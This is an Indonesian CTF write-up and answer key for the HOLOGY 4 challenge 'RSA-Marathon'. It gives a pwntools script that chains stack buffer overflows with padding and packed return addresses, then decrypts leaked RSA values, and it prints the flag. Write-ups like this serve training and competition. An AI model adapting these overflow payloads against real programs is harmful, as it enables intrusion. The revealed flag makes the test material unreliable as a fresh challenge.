 # RSA-Marathon (214 Pts)

- [RSA-Marathon](#rsa-marathon)
- [Deskripsi](#deskripsi)
- [Konsep soal](#konsep-soal)
- [HINT](#hint)
- [Proof of Concept](#proof-of-concept)
- [Refrensi](#refrensi)

## Deskripsi
Jadilah juara di perlombaan marathon HOLOGY !!!

Author : **Dolf7**

Format Flag : Hology4{}

## Konsep soal
- Buffer Overflow
- Buffer Overwrite
- RSA Kriptografi
  
Mencari Overflow dan menuju alamat fungsi yang ada sesuai urutan soal. Jika sampai di akhir maka akan mendapatkan beberapa petunjuk flag berupa komponen dari RSA yang dapat di dekripsi untuk mendapat flag 


## HINT
1. Dapatkan petanya terlebih dahulu
2. Perhatikan kemana kamu pergi, jangan sampai tersesat
3. Berlari lebih dari yang diminta, akan sangat membantu mu
   
## Proof of Concept
```
#!usr/bin/env python3
from pwn import *
from Crypto.Util.number import *

p = process('./marathon')
load0 = 0xc0debeef
x = b'A'*10 + p32(load0)
p.sendline(x)
p.recvuntil(b"e ")
e = p.recvline()
e = int(e, 16)

p.recvuntil(b"n ")
n = p.recvline()[:-1]
n = int(n, 16)

p.recvuntil(b"c ")
c = p.recvline()[:-1]
c = int(c, 16)

p.recvuntil(b"l ")
l = p.recvline()[:-1]
l = int(l, 16)

p.recvuntil(b"s ")
s = p.recvline()[:-1]
s = int(s, 16)

payload0 = b'A'*50 + p32(e)
payload1 = b'A'*132 + p32(l)
payload2 = b'A'*132 + p32(n)
payload3 = b'A'*68 + p32(s)
payload4 = b'A'*260 + p32(c)
p.recvuntil(b"Check point 0 \n")

p.sendline(payload0)
p.recvuntil(b'e= ')
e1 = p.recvline()

p.sendline(payload1)

p.sendline(payload2)
p.recvuntil(b'n= ')
n1 = p.recvline()

p.sendline(payload3)

p.sendline(payload4)
p.recvuntil(b'c= ')
c1 = p.recvline()

p.sendline(x)
p.sendline(payload0)
p.recvuntil(b'p= ')
p1 = p.recvline()

e = int(e1[:-1])
n = int(n1[:-1])
c = int(c1[:-1])
p = int(p1[:-1])
q = n//p

phi = (p-1) *(q-1)
d = inverse(e, phi)
m = pow(c, d, n)
y = str(hex(m)[2:])

print(bytes.fromhex(y).decode('ascii'))
```

ouput :
```
$ python3 solve.py 
[+] Starting local process './marathon': pid 10802
hology4{F1ni5h_H0l0GY4_M4rath0n_Ch4mp10n}
[*] Process './marathon' stopped with exit code 0 (pid 10802)
```

## Refrensi
Tidak ada

## Deployment

```
docker build -t marathon .
docker run -d --name=marathon -p 36998:36998/tcp marathon
crontab /path/to/crontab
```

## Flag
<details>
<summary>Tekan untuk melihat flag</summary>

    hology4{F1ni5h_H0l0GY4_M4rath0n_Ch4mp10n}

</details>
